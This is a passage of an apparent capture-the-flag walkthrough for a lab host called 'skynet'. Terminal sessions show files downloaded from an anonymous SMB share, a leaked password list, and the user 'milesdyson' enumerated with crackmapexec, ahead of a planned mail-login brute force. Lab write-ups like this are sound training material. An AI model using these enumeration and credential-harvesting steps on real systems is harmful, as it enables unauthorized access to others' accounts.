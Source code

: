 ### What is Miles password for his emails?

#### Enum SMB and get password from logs

```bash
┌──(kali㉿kali)-[~/…/skynet/results/10.10.67.8/loot]
└─$ smbget -R -a smb://10.10.67.8/anonymous
Using workgroup WORKGROUP, guest user
smb://10.10.67.8/anonymous/attention.txt
smb://10.10.67.8/anonymous/logs/log2.txt
smb://10.10.67.8/anonymous/logs/log1.txt
smb://10.10.67.8/anonymous/logs/log3.txt
Downloaded 634b in 10 seconds

┌──(kali㉿kali)-[~/…/results/10.10.67.8/loot/logs]
└─$ ls
log1.txt  log2.txt  log3.txt

┌──(kali㉿kali)-[~/…/skynet/results/10.10.67.8/loot]
└─$ cat attention.txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

┌──(kali㉿kali)-[~/…/skynet/results/10.10.67.8/loot]
└─$ cd logs

┌──(kali㉿kali)-[~/…/results/10.10.67.8/loot/logs]
└─$ ls
log1.txt  log2.txt  log3.txt

┌──(kali㉿kali)-[~/…/results/10.10.67.8/loot/logs]
└─$ cat log1.txt
cyborg007haloterminator
terminator22596
terminator219
...
```

Seems like passwords

#### Bruteforce squirrelmail web service

Enumerate users from smb

```bash
┌──(kali㉿kali)-[~/…/results/10.10.67.8/scans/tcp445]
└─$ cme smb 10.10.131.237 --users
SMB         10.10.131.237   445    SKYNET           [*] Windows 6.1 (name:SKYNET) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.131.237   445    SKYNET           [-] Error enumerating domain users using dc ip 10.10.131.237: socket connection error while opening: [Errno 111] Connection refused
SMB         10.10.131.237   445    SKYNET           [*] Trying with SAMRPC protocol
SMB         10.10.131.237   445    SKYNET           [+] Enumerated domain user(s)
SMB         10.10.131.237   445    SKYNET           \milesdyson
SMB         10.10.131.237   445    SKYNET           [+] Enumerated domain user(s)
SMB         10.10.131.237   445    SKYNET           \milesdyson
```
